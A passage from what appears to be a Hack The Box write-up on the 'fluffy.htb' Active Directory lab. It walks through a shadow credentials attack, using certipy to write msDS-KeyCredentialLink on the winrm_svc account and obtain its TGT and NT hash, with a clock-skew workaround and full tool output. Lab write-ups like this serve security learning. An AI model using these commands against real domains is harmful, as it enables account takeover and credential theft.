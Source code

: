 ```bash
[+] p.agila added to Service Accounts
```
> If the future commands don't work, you may need to add `p.agila` back to the `Service Accounts` group as the box tries to reset itself for future hackers 
{: .prompt-tip}

The `Generic Write` permission doesn't let us overwrite a password but we can use a [shadow credential attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab){:target="_blank"}{:rel="noopener noreferrer"}. By modifying/writing to the **msDS-KeyCredentialLink** property of the `winrm_svc` user, we can **obtain a TGT and NT hash** for that user!
### p.agila -> winrm_svc
We can use [certipy](https://github.com/ly4k/Certipy){:target="_blank"}{:rel="noopener noreferrer"} to do the heavy lifting and generate a way to authenticate as `winrm_svc`
```bash
certipy shadow auto -u 'p.agila@fluffy.htb' -p '<PASSWORD_REDACTED>' -account 'winrm_svc'
```

If this error pops up
```bash
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

We need to sync the time on our machine with the server's time. I added this to my `.zshrc` and prepended time sensitive commands with the alias `sync-ad`
```bash
alias sync-ad="faketime \"\$(ntpdate -q fluffy.htb | cut -d ' ' -f 1,2)\" ""
```

Run the `certipy` command again and we should obtain a hash
```bash
sync-ad certipy shadow auto -u 'p.agila@fluffy.htb' -p '<PASSWORD_REDACTED>' -account 'winrm_svc'
```

```bash
Certipy v4.8.2 - by Oliver Lyak (ly4k)

Wed Aug 13 20:03:39 EDT 2025
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '6e1663ed-5248-1100-6f1e-8baaee8c9135'
[*] Adding Key Credential with device ID '6e1663ed-5248-1100-6f1e-8baaee8c9135' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '6e1663ed-5248-1100-6f1e-8baaee8c9135' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': <HASH_REDACTED>
```
